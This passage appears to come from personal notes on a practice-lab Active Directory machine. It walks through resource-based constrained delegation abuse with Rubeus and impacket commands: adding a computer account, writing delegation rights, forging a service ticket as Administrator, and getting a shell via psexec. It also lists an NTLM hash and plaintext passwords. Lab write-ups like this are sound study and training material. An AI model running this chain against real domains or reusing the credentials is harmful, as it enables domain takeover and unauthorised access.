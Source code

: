 			- `rubeus.exe s4u /user:FAKE01$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:resourced.local /ptt
			- Test
				- `ls \\victim.domain.local\C$
			- RCE
				- `PsExec.exe \\victim cmd
		- Linux resource
			- `impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.200.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'r4j3sh$' -computer-pass 'Rajesh@Mondal'
			- `impacket-rbcd -action write -delegate-to "RESOURCEDC$" -delegate-from "r4j3sh$" -dc-ip 192.168.200.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
			- `impacket-getST -spn cifs/resourcedc.resourced.local -impersonate Administrator resourced/r4j3sh\\$:'Rajesh@Mondal' -dc-ip $DC-IP
				- ![[Pasted image 20240809131836.png]]
			- klist
				- ![[Pasted image 20240809131909.png]]
			- Add $DCIP resourcedc.resourced.local  to /etc/hosts
			- impacket-psexec -dc-ip 192.168.200.175 -k -no-pass resourcedc.resourced.local
### Credentials
- V.Ventz - Description:HotelCalifornia194!
### Lessons Learned